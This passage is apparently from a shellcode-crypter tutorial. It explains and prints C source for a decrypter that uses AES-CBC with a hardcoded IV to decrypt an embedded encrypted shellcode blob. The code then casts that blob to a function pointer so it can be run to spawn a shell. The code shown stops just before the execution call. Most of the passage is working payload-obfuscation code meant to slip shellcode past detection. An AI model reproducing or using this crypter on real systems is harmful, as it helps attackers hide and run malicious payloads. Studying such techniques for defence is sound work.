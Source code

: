 This will be very similar to our encryption program.  We will just call the decrypt function instead.

First we add our defines, includes, and the encrypted shellcode which were all explained in the encryption program.

Our decrypt function will take the key and length, same as the encrypt function.  We will initialize the context and initialization vector with AES_init_ctx_iv and then call AES_CBC_decrypt_buffer.

Our variable initializations are the same, struct AES_ctx ctx.. and the IV which we hardcoded so it will be the same.

In the main function, we will check the key length then we will create our call for the shellcode in order to prepare for the hand off to our decrypted shellcode. This will be int (*ret)() = (int(*)())enc_sc;

The rest of main is pretty straight forward.  The decrypt function we created is called then output the decrypted shellcode for debugging purposes. Next, ret() is called which is the hand off to our decrypted shellcode.  If properly done, we should have a new shell prompt!
```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>

#define CBC 1
#define ECB 0
#define CTR 0

#include "aes.h"

uint8_t enc_sc[] = "\xAF\x5B\x25\x46\x1C\xE4\x84\x94\xFC\x0F\x32\xDF\x9C\x31\x5D\x2D\xDA\xEF\x55\xC9\x8F\x56\x1F\xC1\x9C\x0C\x3B\x3A\x21\x0D\x61\xD3";

void decrypt(char *decryptKey, uint32_t length)
{
	struct AES_ctx ctx;
	char *iv = "a83lLkdfndi20did";
	
	AES_init_ctx_iv(&ctx, (uint8_t*)decryptKey, (uint8_t*)iv);
	
	AES_CBC_decrypt_buffer(&ctx, enc_sc, length);
}

main(int argc, char* argv[])
{
	if(strlen(argv[1]) != 32){
    printf("Make the key 32 bytes");
    return 0;
  }	

	int (*ret)() = (int(*)())enc_sc;
	char *decryptKey = argv[1];
  uint32_t sc_len = sizeof(enc_sc)-1;

	decrypt(decryptKey, sc_len);
	
	printf("Decrypted Shellcode:\n");

	for(int i = 0; i < sc_len; i++)
	{
		printf("\\x%02X", enc_sc[i]);

	}	
	printf("\n");	

	printf("Running Shellcode.\n\n\n");
```